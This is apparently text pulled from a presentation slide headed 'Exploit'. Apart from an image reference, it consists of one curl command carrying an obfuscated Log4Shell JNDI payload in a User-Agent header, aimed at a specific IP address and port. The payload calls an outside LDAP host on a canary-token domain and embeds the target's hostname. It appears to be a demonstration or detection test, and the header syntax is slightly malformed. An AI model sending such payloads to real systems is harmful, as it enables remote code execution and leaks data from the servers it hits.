

# Exploit
curl -H
'User-Agent${${lower:j}ndi:ldap://x${hostName}.L4J.
97lcm9o78k2ror6yaxi8w8go3.canarytokens.com/a}’ 34.118.44.50:9000